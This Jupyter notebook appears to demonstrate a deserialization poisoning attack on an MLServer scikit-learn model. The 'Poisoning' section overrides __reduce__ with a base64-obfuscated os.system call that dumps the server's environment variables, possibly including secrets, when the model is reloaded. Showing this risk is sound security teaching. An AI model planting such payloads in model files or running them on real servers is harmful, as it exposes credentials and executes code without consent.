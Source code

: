 # Poisoning Example

This notebook demonstrates a simple poisoning attach to generate a malicious artefact that dumps all the environment variables.

## Training

The first step will be to train a simple `scikit-learn` model.
For that, we will use the [MNIST example from the `scikit-learn` documentation](https://scikit-learn.org/stable/auto_examples/classification/plot_digits_classification.html) which trains an SVM model.


```python
# Original source code and more details can be found in:
# https://scikit-learn.org/stable/auto_examples/classification/plot_digits_classification.html

# Import datasets, classifiers and performance metrics
from sklearn import datasets, svm, metrics
from sklearn.model_selection import train_test_split

# The digits dataset
digits = datasets.load_digits()

# To apply a classifier on this data, we need to flatten the image, to
# turn the data in a (samples, feature) matrix:
n_samples = len(digits.images)
data = digits.images.reshape((n_samples, -1))

# Create a classifier: a support vector classifier
classifier = svm.SVC(gamma=0.001)

# Split data into train and test subsets
X_train, X_test, y_train, y_test = train_test_split(
    data, digits.target, test_size=0.5, shuffle=False)

# We learn the digits on the first half of the digits
classifier.fit(X_train, y_train)
```

### Saving our Trained Model

To save our trained model, we will serialise it using `joblib`.
While this is not a perfect approach, it's currently the recommended method to persist models to disk in the [`scikit-learn` documentation](https://scikit-learn.org/stable/modules/model_persistence.html).

Our model will be persisted as a file named `mnist-svm.joblib`


```python
import joblib

model_file_name = "./models/naive-model/model.joblib"
joblib.dump(classifier, model_file_name)
```


```python
open(model_file_name, 'rb').read()
```

## Serving

Next step will be to serve our un-tampered model to show it's working as expected.

For this, we will leverage [MLServer](mlserver.readthedocs.io/) - a simple inference server that ships a Scikit-Learn inference runtime out-of-the-box.
The only requirement will be to create a `model-settings.json` file that instructs MLServer to use the SKLearn runtime to serve this model.


```python
%%writefile models/naive-model/model-settings.json
{
    "name": "naive-model",
    "implementation": "mlserver_sklearn.SKLearnModel"
}
```

With our config file in place, the next step will be to start MLServer on a separate terminal with:

```bash
mlserver start ./models/naive-model
```

As we can see, the model gets loaded correctly, and can serve inference requests.


```python
import requests

from mlserver.types import InferenceResponse
from mlserver.codecs import NumpyRequestCodec

endpoint = "http://localhost:8080/v2/models/naive-model/infer"
req = NumpyRequestCodec.encode_request(X_test[0:1])
res = requests.post(endpoint, json=req.dict())

res.json()
inf_res = InferenceResponse(**res.json())
NumpyRequestCodec.decode_response(inf_res)
```

## Poisoning


```python
import types, os, base64

def __reduce__(self):
    # This is basically base64 for cmd = "env > pwnd.txt"
    cmd = base64.b64decode("ZW52ID4gcHduZC50eHQ=").decode() 
    return os.system, (cmd,)

classifier.__class__.__reduce__ = types.MethodType(__reduce__, classifier.__class__)
joblib.dump(classifier, model_file_name)
```


```python
with open(model_file_name, "rb") as f: print(f.readlines())
```

If we now try to reload our model, MLServer will (unknowingly) load the poisoned model which will - in turn - dump our entire environment (which could include passwords, etc.).


```python
import requests

endpoint = "http://localhost:8080/v2/repository/models/naive-model/load"
requests.post(endpoint)
```


```python
!head ./models/naive-model/pwnd.txt
```


```python

```
